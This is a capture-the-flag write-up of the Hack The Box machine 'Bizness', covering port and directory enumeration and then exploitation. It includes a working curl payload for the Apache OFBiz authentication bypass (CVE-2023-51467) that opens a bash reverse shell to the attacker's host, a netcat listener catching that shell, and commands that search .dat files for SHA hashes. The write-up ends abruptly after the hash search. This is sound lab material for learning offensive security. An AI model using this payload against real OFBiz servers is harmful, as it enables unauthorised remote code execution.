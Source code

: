 ```yaml
---
author: pl4int3xt
layout: post
title: Bizness
date: '2024-01-12'
description: "Bizness is an easy linux machine from HTB"
categories: [HTB]
---
```


## MACHINE INFO

> **[Bizness](https://app.hackthebox.com/machines/Bizness)** is an easy linux machine which leverages a CVE on `Apache OFBiz` to gain the initial foothold. To escalate privileges we search for hashes in derby db files and decrypt to get the root password. 

## Enumeration

We perform a quick scan to see the open ports

```shell
sudo nmap -p- --min-rate 10000 10.10.11.252
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 20:03 EAT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.83s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
34603/tcp open  unknown
```

We then perform an agressive scan on the found open ports

```shell
sudo nmap -A -p 22,80,443,34603 10.10.11.252
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.72s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
443/tcp   open  ssl/http   nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: BizNess Incorporated
34603/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   706.41 ms 10.10.16.1
2   297.16 ms bizness.htb (10.10.11.252)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.93 seconds
```

We add the ip to our hosts file 
```bash
echo '10.10.11.252 bizness.htb' | sudo tee -a /etc/hosts
```

The website does not have much information 

Let's try more enumeration on the directories

```shell
pl4int3xt@archlinux ~> ffuf -w ~/Downloads/wordlists/seclists/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/FUZZ -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/FUZZ
 :: Wordlist         : FUZZ: /home/pl4int3xt/Downloads/wordlists/seclists/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

control                 [Status: 200, Size: 34633, Words: 10468, Lines: 492, Duration: 3322ms]
```

We get a directory named control let's continue and enumerate the control directory

```shell
pl4int3xt@archlinux ~> ffuf -w ~/Downloads/wordlists/seclists/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/control/FUZZ -fw 10468

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/control/FUZZ
 :: Wordlist         : FUZZ: /home/pl4int3xt/Downloads/wordlists/seclists/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10468
________________________________________________

login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 5932ms]
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 5426ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3464ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3551ms]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 618ms]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3998ms]
```

We get a login page which is running apache ofbiz and the release is 18.12

Searching for exploits about the apache ofbiz we come across this article in [vulncheck](https://vulncheck.com/blog/ofbiz-cve-2023-51467)

we craft our payload to get a reverse shell as stated in the article

```shell
curl -kv -H "Host: bizness.htb" -d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >%26 /dev/tcp/10.10.16.59/9001 0>%261;';x.execute();" "https://bizness.htb/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

We listen with netcat and we gain a foothold in the machine
```shell
pl4int3xt@archlinux ~> nc -nlvp 9001
Connection from 10.10.11.252:43578
bash: cannot set terminal process group (719): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$
```


[Exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

find / -name '*.dat' -type f 2>/dev/null > /tmp/datfiles

cat datfiles | xargs strings | grep SHA